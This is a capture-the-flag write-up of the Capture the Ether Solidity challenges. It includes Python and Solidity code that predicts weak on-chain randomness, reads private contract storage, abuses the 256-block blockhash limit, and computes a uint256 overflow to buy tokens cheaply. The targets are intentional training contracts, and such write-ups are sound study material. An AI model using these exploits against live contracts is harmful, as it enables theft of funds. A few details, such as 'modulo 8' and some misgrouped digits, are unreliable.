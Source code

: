# Capture The Ether WRITEUP


Writeup of the different challenges of [Capture the ether](https://capturetheether.com/)

# Warmup

## 2) Call Me

Pretty simple, you just call the function `callMe()`.

## 3) Choose a nickname

Again the challenge is simple, you call the function `setNickame()` with your nickname.
2 subtilities:
- One, you need to call `setNickname()` on the CaptureTheEther contract at address `0x71c46Ed333C35e4E6c62D32dc7C8F00D125b4fee` and not the address given on the left.
- Two, you need to be sure to encode your nickname correctly. The contract check the leftmost character to see if its 0 or not so you need to be sure that your nickname is save as 0xYOURNICKNAMEINHEX00000000000000000000...0 instead of 0x00000000000000000000...0YOURNICKNAMEINHEX.

# Lotteries

## 4) Guess the number

Simply call `guess()` with 42 as argument and msg.value equal to 1 ether.

## 5) Guess the secret number

We need to find which uint8 has a keccak256 hash equal to the one save in the contract. We can easily brute force the solution with a loop:
```python
for i in range(2 ** 8):
    # if the hash matches, guess the number
    if Web3.solidityKeccak(["uint8"], [i]).hex().upper() == answerHash.upper():
        contract.guess(i, {"from": account, "value": ONE})
```
Then we send the transcation like the previous challenge.

## 6) Guess the random number

We need to find the number saved during the creation of the contract. Since the variable doesn't have the `public` visibility modifer, solidity didn't create a getter `answer()`, but we can still look at the contract storage and find the number:
```python
answer = int(w3.eth.get_storage_at(contract_address, 0).hex(), base=16)
```
Then we send the transcation like the previous challenge.

## 7) Guess the new number

Similar to the previous challenges, we need to find the right number, only now, the number is generated at the same time we are trying to guess it.
```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
```

To guess this number, we create an attack contract that will do the same calculation as the target contract and will then "guess" the correct answer. Since the calculations are done during the same transaction, they will have the same block.number and timestamp:
```solidity
uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
GuessTheNewNumber(target_contract).guess{value: msg.value}(answer);
payable(msg.sender).transfer(address(this).balance);
```
We need to slightly modify the syntax since we are using solidity version 0.8.0 so `now` becomes `block.timestamp` and `keccak(x,y)` become `keccak256(abi.encodePacked(x,y))`
Then our `attack()` function call the `guess()` function with a `msg.value` of `1 ether` and we then transfer the received ether to our EOA attacker address. We also need to make sure our attack contract has a `receive()` function to receive the ether from the target contract:
```solidity
receive() external payable {}
```


## 8) Predict the future

We need to guess a number between 0 and 9 (because of the `% 10`) and call `lockInGuess(uint8 n)`. Then with a different transaction, check wheter our guess was correct or not by calling `settle()`. The problem is, if the guess was wrong, we need to guess again and each guess cost us 1 ether:
```solidity
function lockInGuess(uint8 n) public payable {
    require(guesser == 0);
    require(msg.value == 1 ether); // need to pay 1 ether to guess

    guesser = msg.sender;
    guess = n;
    settlementBlockNumber = block.number + 1; 
}

function settle() public {
    require(msg.sender == guesser); // need to call lockInGuess() each time we settle
    require(block.number > settlementBlockNumber);// has to be a different transaction (and in a different block)

    uint8 answer = uint8(
        keccak256(block.blockhash(block.number - 1), now)
    ) % 10; // calculate the answer

    guesser = 0; //reset, so if the next line is wrong, we need to call lockInGuess() again
    if (guess == answer) {
        msg.sender.transfer(2 ether);
    }
}
```
The trick is to randomly guess a number, say 8, and then with a different transaction check whether that transaction will be in a block where the answer will be equal to our guess. If it is, we call `settle()` and win, if it's not, we simply abort the transaction, lost some gas fee, and try again.
```solidity
function attack() public returns (bool) {
    uint8 answer = uint8(
        uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp
                )
            )
        )
    ) % 10; // compute the answer just like the target contract will, with the same params (`block.number` and `block.timestamp`)
    require(answer == 8); // make sure our answer is correct, if not revert
    PredictTheFutureChallenge(target).settle(); // if its correct, we call settle()
    payable(msg.sender).transfer(address(this).balance);// and transfer our ether from our contract to our attacker address
}
```
Now we just need to send the same transaction where we call `attack()` until the tx goes through and we recover our ethers. We only lose some gas fee.



## 9) Predict the block hash

Same challenge as before, except we now need to guess the hash of the current block instead of a number modulo 8. Another difference is that the answer check the hash of the block our guess transaction was in (the one in which we call `lockInGuess(bytes32 hash)`) and not the current one. If we read the solidity docs on [blockhash](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#block-and-transaction-properties), we see that they are only stored for 256 blocks, for scalability reasons, and after that `blockhash(blockNumber)` will return 0. so we know that the answer will be zero in the future, we can just guess zero, wait until the block number has increased by more than 256 (it takes about an hour) and make the contract check our answer.


# Math

## 10) Token sale

Here we need to create an overflow in the `buy()` function in order to increase our balance on the contract without sending that much ethers:
```solidity
require(msg.value == numTokens * PRICE_PER_TOKEN); // PRICE_PER_TOKEN = 10^18
```
We need to set `numTokens` to a value that will overflow `numTokens * PRICE_PER_TOKEN` so `msg.value` can be lower that what the contract think we sent. We need to overflow the righthand side of this `require`. We know that for an `uint256` an overflow happens at 2^256, which become zero. If we divide that number by 10^18 (since numTokens will be mul by 1 ether) we get a value `x` that will be multiply by 10^18 and cause an overflow. BUT, since we first divided by 10^18, we get a float number that will be floored when given to the contract so when we multiply that number by 10^18, we'll get a smaller number that before and there will be no overflow. So before sending that `x` number to the contract, we need to add 1 to it, so `x` time 10^18 will be bigger than 2^256. Here are the numbers:
```
# 2^256 = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457,584,007,913,129,639,936
# /10^18 = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457.584007913129639936
# take the floor = 11,579,208,923,731,619,542,357,098,500,868,790,785,326,998,466,564,056,403,9457 -> `x`
# +1 = 11,579,208,923,731,619,542,357,098,500,868,790,785,326,998,466,564,056,403,9458 -> `NumTokens`
# *10^18 = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,458,000,000,000,000,000,000 -> what will happen in the require (will overflow) and need to be equal to msg.value
# MOD = 415,992,086,870,360,064 -> `msg.value`
```
